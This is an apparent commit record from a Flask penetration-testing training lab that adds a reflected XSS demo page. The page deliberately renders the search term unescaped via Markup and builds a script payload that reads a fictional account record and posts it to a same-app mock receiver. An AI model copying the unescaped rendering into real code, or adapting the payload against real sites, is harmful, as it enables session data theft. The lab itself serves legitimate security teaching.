
After one commit to kucukkgl/fusionsec-lab, a Flask app: page /pentest/xss in a window 1280 px wide. The commit adds this page. Shown: the top 344 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
xss demo

```diff
--- a/app.py
+++ b/app.py
@@ -15,6 +15,7 @@ except ModuleNotFoundError:
 
 
 from pentest.sqli import register_sqli_routes
+from pentest.xss import register_xss_routes
 from pentest.session_hijack import register_session_routes
 from pentest.login import home_page_login
 from pentest.signup import register_signup_routes
@@ -90,6 +91,7 @@ def create_app():
         return response
     # Register all modules (no blueprints)
     register_sqli_routes(app)
+    register_xss_routes(app)
     register_session_routes(app)
     register_admin_routes(app)
     home_page_login(app)
--- /dev/null
+++ b/pentest/xss.py
@@ -0,0 +1,54 @@
+from flask import jsonify, request, render_template, url_for
+from markupsafe import Markup
+
+
+def _lab_account_record():
+    return {
+        "notice": "Fictional training data; no real account is represented.",
+        "name": "Jordan Example",
+        "email": "jordan@example.invalid",
+        "account_balance": "$12,450.00 (simulated)",
+        "recent_activity": [
+            "Password reset requested",
+            "Invoice INV-DEMO-1042: $240.00",
+        ],
+        "support_note": "Training-only note: this is not a real customer record.",
+    }
+
+
+def register_xss_routes(app):
+    @app.get("/pentest/xss/lab-account")
+    def xss_lab_account():
+        return jsonify(_lab_account_record())
+
+    @app.post("/pentest/xss/lab-receiver")
+    def xss_lab_receiver():
+        if request.get_json(silent=True) != _lab_account_record():
+            return jsonify(error="Receiver accepts only the fictional lab record."), 400
+        return jsonify(
+            status="simulated",
+            message="Fake record received by the in-app mock receiver; nothing stored or forwarded.",
+        )
+
+    @app.get("/pentest/xss")
+    def xss_lab():
+        query = request.args.get("q", "")
+        unsafe_html = Markup(query) if query else ""
+        payload = (
+            "<script>"
+            "fetch('/pentest/xss/lab-account',{credentials:'same-origin'})"
+            ".then(r=>r.json())"
+            ".then(d=>fetch('/pentest/xss/lab-receiver',{method:'POST',"
+            "credentials:'same-origin',headers:{'Content-Type':'application/json'},"
+            "body:JSON.stringify(d)}).then(r=>r.json()).then(result=>{"
+            "const box=document.createElement('pre');"
+            "box.textContent=result.message+'\\n\\n'+JSON.stringify(d,null,2);"
+            "document.body.append(box)}))"
+            "</script>"
+        )
+        return render_template(
+            "xss.html",
+            query=query,
+            unsafe_html=unsafe_html,
+            trap_url=url_for("xss_lab", q=payload),
+        )
--- a/templates/index.html
+++ b/templates/index.html
@@ -34,6 +34,7 @@
         <a href="/pentest/signup">Sign up</a>
         <a href="/pentest/login">Login</a>
         <a href="/pentest/sqli">SQL Injection Demo</a>
+        <a href="/pentest/xss">XSS Demo</a>
         <a href="/pentest/session/set?username=guest">Session Hijacking Demo</a>
     </div>
 
--- /dev/null
+++ b/templates/xss.html
@@ -0,0 +1,49 @@
+<!DOCTYPE html>
+<html>
+<head>
+    <title>XSS Demo</title>
+    <style>
+        body {
+            font-family: Arial, sans-serif;
+            margin: 40px;
+        }
+        .result {
+            border: 1px solid #ccc;
+            padding: 12px;
+            margin-top: 16px;
+            background: #fafafa;
+        }
+        code {
+            background: #f0f0f0;
+            padding: 2px 6px;
+        }
+    </style>
+</head>
+<body>
+    <h1>Reflected XSS Demo</h1>
+    <p>This page intentionally reflects attacker-controlled input into the DOM without escaping it.</p>
+    <p>
+        The example link demonstrates a reflected-XSS trap: its script reads a fictional
+        record available to the visitor's browser and sends it to a fixed, same-app mock
+        receiver. No real data is used, and nothing is stored or forwarded elsewhere.
+    </p>
+
+    <form action="/pentest/xss" method="get">
+        <label for="q">Search term:</label>
+        <input type="text" id="q" name="q" value="{{ query }}">
+        <button type="submit">Search</button>
+    </form>
+
+    <p>Training link: opening it runs the demonstration and shows what the mock receiver gets.</p>
+    <p><a href="{{ trap_url }}">Open the simulated XSS trap</a></p>
+
+    {% if query %}
+        <h2>Reflected Output</h2>
+        <div class="result">
+            {{ unsafe_html }}
+        </div>
+    {% endif %}
+
+    <p><a href="/">Back to lab home</a></p>
+</body>
+</html>
```
